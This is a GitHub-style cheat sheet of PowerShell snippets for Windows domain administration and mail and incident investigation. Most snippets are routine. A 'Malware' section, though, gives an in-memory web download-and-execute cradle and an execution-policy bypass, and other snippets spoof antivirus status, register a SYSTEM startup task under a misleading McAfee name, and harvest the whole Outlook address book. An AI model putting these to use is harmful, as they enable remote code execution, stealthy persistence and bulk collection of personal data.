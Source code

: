 # PowerShell
PowerShell scripts and tricks

# Usefull cmdlets
## Report patch status
```
wmic qfe list brief /format:texttablewsys
```
```powershell
$Session = New-Object -ComObject Microsoft.Update.Session
$Searcher = $Session.CreateUpdateSearcher()
$HistoryCount = $Searcher.GetTotalHistoryCount()
$Updates = $Searcher.QueryHistory(0,$HistoryCount)
$Updates |  Select Title,@{l='Name';e={$($_.Categories).Name}},Date
```
## Get list of all OS in the domain
```powershell
Get-ADComputer -Filter 'enabled -eq "true"' -Properties Name,Operatingsystem,OperatingSystemVersion,IPv4Address,LastLogonDate |
Sort-Object -Property Operatingsystem |
Select-Object -Property Name,Operatingsystem,OperatingSystemVersion,IPv4Address,LastLogonDate |
Out-GridView
```
## Sign PS1 script
see sign_ps1.ps1
## Filesystem
### Get hidden streams 
":$DATA" is normal. Everything else is not. 
```powershell
Get-Item -Path C:\path\* -Stream * | ?{$_.stream -notlike ":`$DATA"} | select FileName, Stream, Length
```

## Events
### get powershell logs
```powershell
Get-WinEvent "Microsoft-Windows-PowerShell/Operational" -Oldest | ? ID -eq 4104 | select TimeCreated, ID, Message | ft -wrap
```

## It's alive!
```powershell
 Add-Type -AN System.Speech;[System.Speech.Synthesis.SpeechSynthesizer]::new().Speak("Kill all h
umans!")
```
## Windows Domain 
## List of all properties
https://social.technet.microsoft.com/wiki/contents/articles/12037.active-directory-get-aduser-default-and-extended-properties.aspx?PageIndex=2
https://www.easy365manager.com/how-to-get-all-active-directory-user-object-attributes/
### Get enabled users
```powershell
Get-ADUser -Filter 'enabled -eq $true' | Select Name,samaccountname | Export-Csv enabled_users.csv 
```
### Get list of PCs from AD group
```powershell
 Get-ADComputer -Filter * -SearchBase "OU=Windows 10,OU=Computers,OU=,DC=,DC=net"
 | select -ExpandProperty Name
```
 or
 ```powershell
 dsquery computer "OU=Windows 10,OU=Computers,OU=,DC=,DC=net" -o rdn`
 ```
 
 ### Get list of users with local admin access
 ```powershell
 Get-LocalGroupMember -name Administrators
 ```
 ```powershell
 Get-LocalGroupMember -name Administrators |? {$_.ObjectClass -eq "Group"} | % {Get-ADGroupMember $_.name.Split('\')[1] -Recursive} | % {Get-ADUser $_.SamAccountName -properties Enabled, PasswordLastSet, PasswordNeverExpires, LastLogonDate, BadLogonCount, LastBadPasswordAttempt, LockedOut, BadPwdCount} | select Name, SamAccountName, Enabled, PasswordLastSet, PasswordNeverExpires, LastLogonDate, BadLogonCount, LastBadPasswordAttempt, LockedOut, BadPwdCount | ft
 ```
 
 ### get all users in the domain
 ```powershell
 Get-ADUser -Filter * -SearchBase "DC=sigma,DC=sbrf,DC=ru" -Properties enabled,Name,Surname...... | export-csv login.csv -NoTypeInformation
 ```
 via Outlook address book
 ```powershell
[Microsoft.Office.Interop.Outlook.Application] $outlook = New-Object -ComObject Outlook.Application 
$entries = $outlook.Session.GetGlobalAddressList().AddressEntries 
$content = @()

# https://docs.microsoft.com/en-us/office/vba/api/Outlook.ExchangeUser
foreach($entry in $entries){
  $content += New-Object PsObject -property @{
   'Name' = $entry.Name
   'FirstName' = $entry.GetExchangeUser().FirstName
   'LastName' = $entry.GetExchangeUser().LastName
   'JobTitle'= $entry.GetExchangeUser().JobTitle
   'Department' = $entry.GetExchangeUser().Department
   'PrimarySmtpAddress' = $entry.GetExchangeUser().PrimarySmtpAddress
   'MobileTelephoneNumber'= $entry.GetExchangeUser().MobileTelephoneNumber
     }
}

#export to csv
$content | export-csv Outlook.csv -NoTypeInformation
```
 
 ### Get KRBTGT info
```powershell
Get-ADUser -Filter{SamAccountName -like "krbtgt*"} -Properties PasswordLastSet,msDS-KeyVersionNumber, msDS-KrbTgtLinkBl
```
note: krbtgt_XXX accoutns are owned by RODC, KeyVersion == 1 means password was never changed

## Get AV status
```powershell
Get-WmiObject -Namespace root\SecurityCenter2 -Class AntiVirusProduct  -ComputerName  $env:computername`
```

## Set AV status
```powershell
Set-WmiInstance -Path '\\HOSTNAME\root\SecurityCenter2:AntiVirusProduct.instanceGuid="{1006DC03-1FB1-9E52-7C81-F2FAB48962E3}"' -Argument @{productState="397312"}
```

## Autostart smtng
```powershell
$taskName = "McAfee VSEp10 fix"
$action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-File "C:\Temp\test.ps1"'
$trigger = New-ScheduledTaskTrigger -AtStartup -RandomDelay 00:00:30
$settings = New-ScheduledTaskSettingsSet -Compatibility Win8
$principal = New-ScheduledTaskPrincipal -UserId SYSTEM -LogonType ServiceAccount -RunLevel Highest
$definition = New-ScheduledTask -Action $action -Principal $principal -Trigger $trigger -Settings $settings -Description "Run $($taskName) at startup"
Register-ScheduledTask -TaskName $taskName -InputObject $definition

Get-ScheduledTask -TaskName $taskName -ErrorAction SilentlyContinue 
```

## Mail investigations
### Retrieve all rules - high level
```powershell
Get-Mailbox -ResultSize unlimited | Get-InboxRule -ErrorAction:SilentlyContinue | format-table -Autosize MailboxOwnerID,name,from,redirectto,ForwardTo > c:\Forwarding_Rules.csv	
```
### Retrieve all rules - detailed
```powershell
Get-Mailbox -ResultSize Unlimited | % {Get-InboxRule -Mailbox $_.UserPrincipalName} | Select MailboxOwnerID, Name, Description | Export-Csv allruleresults.csv -NoTypeInformation
```
```powershell
Get-Mailbox -ResultSize Unlimited | % {Get-InboxRule -Mailbox $_.UserPrincipalName | ? {($_.ForwardTo -ne $null) -or ($_.ForwardAsAttachmentTo -ne $null) -or ($_.RedirectsTo -ne $null)} } | Select MailBoxOwnerID, Name, ForwardTo, ForwardAsAttachmentTo, RedirectTo | Export-Csv allrulesenabled.csv -NoTypeInformation
```
### Check for email forwarding for one email address
```powershell
Get-Mailbox [EmailAddress] | fl ForwardingSMTPAddress,DeliverToMailboxandForward
Get-Mailbox | where {$_.ForwardingAddress -ne $null} | Select Name, ForwardingAddress, DeliverToMailboxAndForward
```
### Find all email forwarding in the domain
```powershell
Get-Mailbox -ResultSize Unlimited | Select Name, Alias, ServerName, DeliverToMailboxAndForward | where {$_.DeliverToMailboxAndForward -eq "true"} | Export-Csv ExchangeFWDlist.csv -NoTypeInformation
```
### Remove an email forward
```powershell
Set-Mailbox -Identity [EmailAddress] -DeliverToMailboxAndForward $false -ForwardingSMTPAddress $null
```
### Remove all email forwarding on the domain
```powershell
Get-Mailbox | Where {$_.ForwardingAddress -ne $null} | Set-Mailbox -ForwardingAddress $null -DeliverToMailboxAndForward $false	
```
### Send results to a CSV file
```powershell
[command]| Export-Csv c:\path\to\file.csv -NoTypeInformation	
```
## Office365
### Get MFA status
```powershell
Connect-MsolService
$User = Get-MSolUser -UserPrincipalName user@domain.com
$User.StrongAuthenticationMethods
```

## Malware
### start in memory from web cradle
```powershell
powershell.exe –ep Bypass –nop –noexit –c iex (New-Object System.Net.WebClient).DownloadString(“https://bit.ly/M@1w@r3”)
```
### start from file and avoid execution bypass policy
```powershell
gc .\test.ps1 | powershell -
```

## Install RSAT
```powershell
$currentWU = Get-ItemProperty -Path “HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU” -Name “UseWUServer” | select -ExpandProperty UseWUServer
Set-ItemProperty -Path “HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU” -Name “UseWUServer” -Value 0
Restart-Service wuauserv
Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability -Online
Set-ItemProperty -Path “HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU” -Name “UseWUServer” -Value $currentWU
Restart-Service wuauserv
```
